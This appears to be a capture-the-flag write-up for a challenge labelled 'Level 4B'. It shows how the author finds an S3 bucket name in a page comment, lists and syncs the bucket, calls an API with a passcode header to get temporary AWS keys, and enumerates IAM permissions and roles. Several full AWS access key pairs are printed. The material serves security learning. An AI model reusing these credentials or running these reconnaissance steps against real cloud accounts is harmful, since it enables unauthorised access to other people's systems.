 # Level 4B

![image](https://user-images.githubusercontent.com/82754379/188318980-32cbdff8-6a92-4a03-8d34-ff9fd8a4d0d7.png)

Heading over to the given URL at https://d20whnyjsgpc34.cloudfront.net/ I saw a page with (six) cat pictures:

![image](https://user-images.githubusercontent.com/82754379/188319697-22cd6b07-2594-4812-a149-74ed2375fe5d.png)


The source code for the web page revealed what could be clues:
```html
    <!-- Passcode -->
    <h1 class="mb-3">Cats rule the world</h1>
    <!-- Passcode -->
    <!-- 
      ----- Completed -----
      * Configure CloudFront to use the bucket - palindromecloudynekos as the origin
      
      ----- TODO -----
      * Configure custom header referrer and enforce S3 bucket to only accept that particular header
      * Secure all object access
    -->
```


## S3 Bucket

The clue indicated that there was an S3 bucket named "palindromecloudynekos", so I tried to access it within the browser at the URL "palindromecloudynekos.s3.amazonaws.com" and got an "Access Denied" result:

![Screenshot from 2022-09-05 00-23-26](https://user-images.githubusercontent.com/82754379/188323431-f0a06d2a-65de-45fc-9232-a8447d61cd75.png)

Reading through the write-ups for other S3-related Capture-The-Flag (CTF) challenges, I found that it may be possible to access the S3 bucket as long as I use an authenticated AWS account.

So, I signed up for an AWS account in the free tier and installed the AWS Command Line Interface (CLI), following the instructions in the online AWS documentation: https://docs.aws.amazon.com/cli/latest/userguide/getting-started-prereqs.html .

After creating a new "Administrator" user and its access keys, I configured the AWS CLI:
```
$ aws configure

AWS Access Key ID [None]: AKIARIXBOXQJ742N6JWC
AWS Secret Access Key [None]:  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
Default region name [None]: ap-southeast-1
Default output format [None]: json
```

Next I used the authenticated account to list the contents of the given S3 bucket:
```
$ aws s3 ls s3://palindromecloudynekos

                           PRE api/
                           PRE img/
2022-08-23 21:16:20         34 error.html
2022-08-23 21:16:20       2257 index.html
```

To make things easier, I mirrored the contents of the S3 bucket to a local directory on my machine:
```
$ aws s3 sync s3://palindromecloudynekos .

download: s3://palindromecloudynekos/api/notes.txt to api/notes.txt
download: s3://palindromecloudynekos/error.html to ./error.html 
download: s3://palindromecloudynekos/index.html to ./index.html 
download: s3://palindromecloudynekos/img/photo3.jpg to img/photo3.jpg
download: s3://palindromecloudynekos/img/photo2.jpg to img/photo2.jpg
download: s3://palindromecloudynekos/img/photo5.jpg to img/photo5.jpg
download: s3://palindromecloudynekos/img/photo4.jpg to img/photo4.jpg
download: s3://palindromecloudynekos/img/photo6.jpg to img/photo6.jpg
download: s3://palindromecloudynekos/img/photo1.jpg to img/photo1.jpg
```

The file **api/notes.txt** gave some clues:
```
$ cat api/notes.txt

# Neko Access System Invocation Notes

Invoke with the passcode in the header "x-cat-header". The passcode is found on the cloudfront site, 
all lower caps and separated using underscore.

https://b40yqpyjb3.execute-api.ap-southeast-1.amazonaws.com/prod/agent

All EC2 computing instances should be tagged with the key: 'agent' and the value set to your username. 
Otherwise, the antivirus cleaner will wipe out the resources.
```

The given URL must be accessed with an HTTP GET request with the correct header in order to obtain the next clue:
```
$ curl -H "x-cat-header: cats_rule_the_world" https://b40yqpyjb3.execute-api.ap-southeast-1.amazonaws.com/prod/agent

{"Message": "Welcome there agent! Use the credentials wisely! It should be live for the next 120 minutes! 
  Our antivirus will wipe them out and the associated resources after the expected time usage.", 
"Access_Key": "AKIAQYDFBGMS4XGUWZVT", 
"Secret_Key": "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"}
```

Each new GET request to the same URL seemed to obtain a different pair of values for **Access_Key** and **Secret_Key**.

I stored the new set of credentials under a different profile and prepared to work with it:
```
$ aws configure --profile tisc

$ aws configure --profile tisc
AWS Access Key ID [None]: AKIAQYDFBGMS4XGUWZVT
AWS Secret Access Key [None]: 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
Default region name [None]: ap-southeast-1
Default output format [None]: json

$ export AWS_PROFILE=tisc
```

I installed [enumerate-iam.py](https://github.com/andresriancho/enumerate-iam) from Github and used it to identify the permissions that the given credentials possess:
```
$ ./enumerate-py.iam --access-key AKIAQYDFBGMS4XGUWZVT --secret-key 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
```

One of the things I could do was to list the IAM roles:
```
$ aws iam list-roles
```

A few roles stood out:

- ec2_agent_role
- lambda_agent_development_role
- lambda_agent_webservice_role
- lambda_cleaner_service_role

The existence of these roles suggested that I may be required to spin up an EC2 instance (and tag it with the key 'agent' with value set to my username), and also write some AWS lambda functions.



